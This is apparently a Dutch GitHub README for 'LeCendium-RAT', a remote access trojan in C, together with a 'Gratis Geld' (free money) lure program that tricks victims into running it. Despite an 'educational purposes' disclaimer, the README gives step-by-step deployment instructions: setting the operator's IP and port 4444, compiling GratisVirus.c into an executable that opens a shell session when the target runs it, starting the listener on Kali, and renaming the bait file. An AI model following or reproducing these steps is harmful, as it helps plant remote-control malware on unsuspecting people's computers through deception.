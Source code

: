 # LeCendium-RAT
- Deze RAT (Remote Administration Tool) is gemaakt voor educatieve doeleinden.

### Beschrijving
LeCendium zichzelf is gemaakt in C. Het bijgeleverde 'Gratis Geld' programma, is maar een eenvoudig voorbeeld hoe je deze RAT kan inzetten.
Het 'Gratis Geld' programma is gemaakt in C#. Ook hier zijn de code bestanden van beschikbaar.

### Vereisten voor gebruik
- Notepad++ of een IDE.
- MinGW
- Windows 7+ met administrator rechten.

### Editen naar persoonlijke voorkeuren
- Voor het editen naar persoonlijke voorkeuren, heb je de bovenstaande vereisten nodig.

- Open GratisVirus.c met jouw IDE (Sublime Text, Atom, etc)
- Verander de volgende 2 regels naar jouw ServerIP en Port voor connectie.
- Regel 143: ` ServIP = "192.168.198.130";`
- Regel 144: ` ServPort = 4444;`
- Stop de GratisVirus.c file in de bin directory van mingw32.

- Wanneer je klaar bent met het editen van deze gegevens, open je CMD (ALS ADMINISTRATOR)
- Change Directory naar de bin van MinGW. (` cd C:\Program Files (x86)\mingw-w64\i686-8.1.0-posix-dwarf-rt_v6-rev0\mingw32\bin`
- Voer in CMD het volgende in : ` gcc GratisVirus.c naamvanexebestand -lwininet -lwsock32` (Dit maakt een .exe bestand van de .c file)
De gebruiker of (target), zal dit .exe bestand moeten openen om een shellsessie te creëren.

### Gebruik maken van LeCendium
- Open jouw Linux distributie. (Kali Linux wordt in de video gebruikt).
- Open de Teriminal
- Clone de files van deze repository : `$ git clone https://github.com/1ncendium/LeCendium-RAT.git`
- Change directory naar LeCendium-RAT/ `cd LeCendium-RAT`
- Export de C file: `gcc LeCendium.c -o LeCendium`
- Run LeCendium `./LeCendium`

#### Note:
Wanneer je de exe file aanpast van GeldVirus.exe naar jouw eigen naam.exe, en het meegeleverde GratisGeld programma hierbij wilt gebruiken, moet je het GratisGeld programma wijzigen. Dit doe je met Visual Studio.

- Verander in het bestand 'GeldProgramma/FreeSpyWare2019/Form1.cs' regel 34 aan:
- ` string file = @"GeldVirus.exe";` Naar jouw bestandsnaam.exe.

